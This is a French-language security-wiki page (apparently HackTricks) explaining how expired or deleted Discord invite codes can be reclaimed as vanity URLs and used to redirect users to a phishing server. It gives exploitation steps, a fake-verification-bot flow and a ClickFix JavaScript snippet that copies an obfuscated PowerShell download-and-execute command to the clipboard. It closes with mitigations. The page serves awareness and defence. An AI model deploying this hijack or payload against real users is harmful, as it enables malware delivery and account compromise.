 # Détournement d'invitation Discord

{{#include ../../banners/hacktricks-training.md}}

La vulnérabilité du système d'invitation de Discord permet aux acteurs malveillants de revendiquer des codes d'invitation expirés ou supprimés (temporaires, permanents ou personnalisés) en tant que nouveaux liens personnalisés sur n'importe quel serveur boosté de niveau 3. En normalisant tous les codes en minuscules, les attaquants peuvent pré-enregistrer des codes d'invitation connus et détourner silencieusement le trafic une fois que le lien original expire ou que le serveur source perd son boost.

## Types d'invitation et risque de détournement

| Type d'invitation     | Détournable ? | Condition / Commentaires                                                                                   |
|-----------------------|---------------|------------------------------------------------------------------------------------------------------------|
| Lien d'invitation temporaire | ✅          | Après expiration, le code devient disponible et peut être réenregistré en tant qu'URL personnalisée par un serveur boosté. |
| Lien d'invitation permanent | ⚠️          | S'il est supprimé et ne contient que des lettres minuscules et des chiffres, le code peut redevenir disponible.        |
| Lien personnalisé     | ✅          | Si le serveur original perd son boost de niveau 3, son invitation personnalisée devient disponible pour un nouvel enregistrement.    |

## Étapes d'exploitation

1. Reconnaissance
- Surveillez les sources publiques (forums, réseaux sociaux, canaux Telegram) pour des liens d'invitation correspondant au modèle `discord.gg/{code}` ou `discord.com/invite/{code}`.
- Collectez les codes d'invitation d'intérêt (temporaires ou personnalisés).
2. Pré-enregistrement
- Créez ou utilisez un serveur Discord existant avec des privilèges de boost de niveau 3.
- Dans **Paramètres du serveur → URL personnalisée**, essayez d'assigner le code d'invitation cible. S'il est accepté, le code est réservé par le serveur malveillant.
3. Activation du détournement
- Pour les invitations temporaires, attendez que l'invitation originale expire (ou supprimez-la manuellement si vous contrôlez la source).
- Pour les codes contenant des majuscules, la variante en minuscules peut être revendiquée immédiatement, bien que la redirection ne s'active qu'après expiration.
4. Redirection silencieuse
- Les utilisateurs visitant l'ancien lien sont envoyés sans problème vers le serveur contrôlé par l'attaquant une fois le détournement actif.

## Flux de phishing via le serveur Discord

1. Restreindre les canaux du serveur afin qu'un seul canal **#verify** soit visible.
2. Déployer un bot (par exemple, **Safeguard#0786**) pour inciter les nouveaux venus à se vérifier via OAuth2.
3. Le bot redirige les utilisateurs vers un site de phishing (par exemple, `captchaguard.me`) sous le prétexte d'une étape CAPTCHA ou de vérification.
4. Implémenter le truc UX **ClickFix** :
- Afficher un message CAPTCHA cassé.
- Guider les utilisateurs pour ouvrir la boîte de dialogue **Win+R**, coller une commande PowerShell préchargée et appuyer sur Entrée.

### Exemple d'injection de presse-papiers ClickFix
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
Cette approche évite les téléchargements de fichiers directs et utilise des éléments d'interface utilisateur familiers pour réduire la suspicion des utilisateurs.

## Atténuations

- Utilisez des liens d'invitation permanents contenant au moins une lettre majuscule ou un caractère non alphanumérique (jamais expirés, non réutilisables).
- Faites régulièrement tourner les codes d'invitation et révoquez les anciens liens.
- Surveillez l'état de boost du serveur Discord et les revendications d'URL personnalisées.
- Éduquez les utilisateurs à vérifier l'authenticité du serveur et à éviter d'exécuter des commandes copiées dans le presse-papiers.

## Références

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord Custom Invite Link Documentation – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include ../../banners/hacktricks-training.md}}

